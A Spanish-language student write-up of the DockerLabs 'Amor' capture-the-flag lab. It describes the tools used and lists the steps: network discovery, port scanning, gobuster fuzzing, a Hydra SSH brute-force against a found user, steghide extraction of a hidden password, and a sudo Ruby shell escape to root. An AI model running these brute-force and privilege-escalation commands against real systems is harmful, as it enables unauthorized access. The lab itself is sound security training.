


## # 🐳DockerLabs - Reto AMOR	❤️

1. Realizar una investigación individual de cada una de las herramientas empleadas. Sintetice el resultado mediante un cuadro que explique su definición, funcionalidad y casos de uso.

    🛠 Prerrequisitos
Sistema base: Kali Linux

## RTA

Este laboratorio forma parte de la plataforma DockerLabs y corresponde a un reto de dificultad Fácil. Tiene como objetivo introducir herramientas básicas de pentesting sobre entornos Docker usando técnicas de escaneo, fuerza bruta y esteganografía.

| **HERRAMIENTA** | **DEFINICION** | **FUNCION** | **USOS** |
| :--- | :--- | :--- | :--- |
| **Docker** | Un sistema de virtualización a nivel de sistema operativo que encapsula aplicaciones y sus dependencias en "contenedores" portátiles y autosuficientes. 📦 | Permite la creación y gestión de ambientes controlados y replicables, aislando procesos para análisis de malware o pruebas de concepto sin riesgo para el sistema anfitrión. | Despliegue de *honeypots*, análisis dinámico de malware (*sandboxing*), y entrenamiento en laboratorios de ciberdefensa. |
| **Nmap** | Una utilidad de código abierto para la exploración de redes y la auditoría de seguridad, considerada el estándar de facto en la industria. 🗺️ | Realiza un mapeo de la superficie de ataque de una red, enumerando hosts, puertos abiertos y los servicios que se ejecutan en ellos, incluyendo sus versiones. | Fase de reconocimiento en una prueba de penetración, validación de políticas de firewall y gestión de vulnerabilidades a nivel de red. |
| **Netdiscover** | Un escáner de reconocimiento activo/pasivo que opera principalmente mediante el protocolo de resolución de direcciones (ARP) en redes locales. 🕵️ | Construye un mapa de los dispositivos presentes en un segmento de red (LAN/WLAN), identificando sus direcciones IP y MAC para obtener conciencia situacional. | Detección de dispositivos no autorizados en una red clasificada, inventario rápido de activos en una evaluación de seguridad interna. |
| **Hydra** | Un cracker de credenciales de red en paralelo, diseñado para ser rápido y flexible al auditar la robustez de las autenticaciones. 🔓 | Automatiza los ataques de diccionario y de fuerza bruta contra una amplia gama de protocolos de red para encontrar contraseñas débiles. | Poner a prueba la efectividad de las políticas de contraseñas de la organización y la capacidad de los sistemas para bloquear intentos de acceso no autorizados. |
| **SCP** | Un protocolo de transferencia de archivos que opera sobre un túnel SSH, garantizando la **confidencialidad** e **integridad** de los datos en tránsito. 🔐 | Facilita la copia cifrada de ficheros entre un host local y uno remoto, o entre dos hosts remotos, de forma segura a través de la línea de comandos. | Exfiltración segura de evidencia digital durante una investigación forense, despliegue de herramientas en sistemas remotos comprometidos. |
| **Steghide** | Una utilidad de línea de comandos que implementa técnicas esteganográficas para incrustar información secreta dentro de archivos de imagen y audio. 🖼️ | Inserta un *payload* (carga útil) de datos dentro de un archivo portador (*carrier file*), modificando su estructura de forma imperceptible para el ojo humano. | Análisis esteganográfico para detectar canales de comunicación encubiertos y la exfiltración de datos no autorizada por parte de amenazas internas o externas. |
| **File** | Un comando estándar en sistemas UNIX/Linux que determina la naturaleza de un archivo examinando sus "números mágicos" y no su extensión. 🔍 | Inspecciona los primeros bytes de un archivo para identificar su tipo real, eludiendo intentos de ofuscación mediante el cambio de nombre. | Identificación de malware que se disfraza con extensiones falsas (ej. un `.exe` renombrado a `.pdf`) y triage inicial de evidencia en análisis forense. |

2. Explicar en detalle cada uno de los comandos empleados en el anterior CTF; realizando un desglose del mismo y citando al menos tres alternativas (si aplica) de variantes del comando para las herramientas empleadas, este punto amplia el ejercicio anterior.
   
## RTA. 🚚 Despliegue del Laboratorio
🚚 Despliegue del Laboratorio
## a.Transferir los archivos del reto:

scp -r amor kali@192.168.1.12:/home/kali/Documents/
Descomprimir recursos

## b. Docker instalado:

sudo apt install docker.io

unzip amor.zip
Otorgar permisos y ejecutar:

cd Documents/amor
chmod +x auto_deploy.sh
./auto_deploy.sh amor.tar

## c. 🔍 Obtener interfaz:

ip add

Descubrimiento de red:

sudo netdiscover -i docker0 -r 172.17.0.0/24
## d. Escaneo de puertos:

sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2

## e. 🌐 Enumeración Web
Accedemos al puerto 80 pero no hay información directa. Se lanza fuzzing:

gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
🔐 Ataque por Fuerza Bruta
Usuarios encontrados en el HTML del sitio: carlota y juan.

## f. Ataque SSH usando Hydra:

hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10

## g. Accedemos vía SSH:

ssh carlota@172.17.0.2

## h. 🖼 Extracción de Evidencia
Navegamos al directorio de imágenes:

cd /carlota/Desktop/fotos/vacaciones

## i. Transferimos la imagen:

scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
Inspeccionamos el tipo de archivo:

file imagen.jpg

## j. 🕵‍♀ Esteganografía
Extraemos información oculta:

steghide extract -sf imagen.jpg

## k. Decodificamos el contenido del archivo secreto:

echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo

## l.🧑‍💻 Escalamiento de Privilegios
Accedemos como otro usuario:

su oscar
## d.Comprobamos acceso con sudo:

sudo -l
Acceso a bash mediante Ruby:

sudo /usr/bin/ruby -e 'exec "/bin/bash"'
Verificamos identidad:

whoami

🧰 Comandos y Variantes
(Se sugiere agregar un archivo complementario comandos.md con descripciones detalladas de cada comando, sus parámetros y alternativas.)

3. Realice un diagrama de flujo de todo el procedimiento realizado
## RTA
🔁 Diagrama de Flujo

